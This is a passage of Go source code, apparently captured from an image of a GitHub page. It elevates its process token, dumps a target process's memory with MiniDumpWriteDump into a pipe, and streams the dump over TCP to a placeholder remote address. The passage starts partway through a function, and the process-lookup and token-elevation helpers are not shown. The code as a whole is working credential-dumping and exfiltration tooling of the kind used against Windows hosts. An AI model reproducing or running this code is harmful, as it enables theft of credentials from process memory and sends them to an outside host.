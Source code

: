 ```golang 

	// Create an anonymous pipe
	r, w, err := os.Pipe()
	if err != nil {
		fmt.Println("Failed to create pipe:", err)
		os.Exit(1)
	}
	defer r.Close()
	defer w.Close()

	// Write the dump to the pipe
	go func() {
		defer w.Close()
		fmt.Println("Starting MiniDumpWriteDump")
		ret, _, err := procMiniDumpWriteDump.Call(uintptr(processHandle), uintptr(pid), w.Fd(), 0x00061907, 0, 0, 0)
		if ret == 0 {
			fmt.Println("Process memory dump not successful")
			fmt.Println(err)
			os.Exit(1)
		}
		fmt.Println("MiniDumpWriteDump completed successfully")
	}()

	sendDumpToRemote(r)
}

// Send the process dump data to a remote address
func sendDumpToRemote(r *os.File) {
	remoteAddr := "<IP>:<Port>"

	// Connect to remote address
	conn, err := net.Dial("tcp", remoteAddr)
	if err != nil {
		fmt.Printf("Failed to connect to remote machine: %v\n", err)
		return
	}
	defer conn.Close()

	fmt.Println("Connected to remote machine")

	// Copy dump data to remote connection
	_, err = io.Copy(conn, r)
	if err != nil {
		fmt.Printf("Failed to send dump data to remote machine: %v\n", err)
		return
	}

	fmt.Println("Dump data sent successfully to", remoteAddr)
}

func main() {
	processPid := getProcessPid()
	fmt.Printf("Process PID: %d\n", processPid)

	err := elevateProcessToken()
	if err != nil {
		fmt.Println(err)
		os.Exit(1)
	}

	pd(processPid)
}
```